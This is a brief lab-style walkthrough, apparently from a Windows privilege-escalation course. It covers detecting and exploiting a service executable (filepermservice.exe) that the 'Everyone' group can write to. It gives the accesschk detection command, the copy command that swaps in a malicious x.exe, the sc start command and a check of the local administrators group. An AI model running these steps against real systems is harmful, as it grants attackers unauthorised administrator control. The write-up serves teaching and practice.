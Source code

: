 # Escalation Path Executables files

This attack exploits **insecure file permissions** on a Windows service executable (`filepermservice.exe`). If **"Everyone"** has **write access**, a low-privileged user can replace the executable with a malicious file to gain **administrator privileges**.
## Detection

**Windows VM**

Open command prompt and type: 

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```  

Notice that the *Everyone* user group has `FILE_ALL_ACCESS` permission on the `filepermservice.exe` file.

## Exploitation

**Windows VM**

Open command prompt and type: 

```
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"  
```

In command prompt type: 

```
sc start filepermsvc  
```

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```
net localgroup administrators
```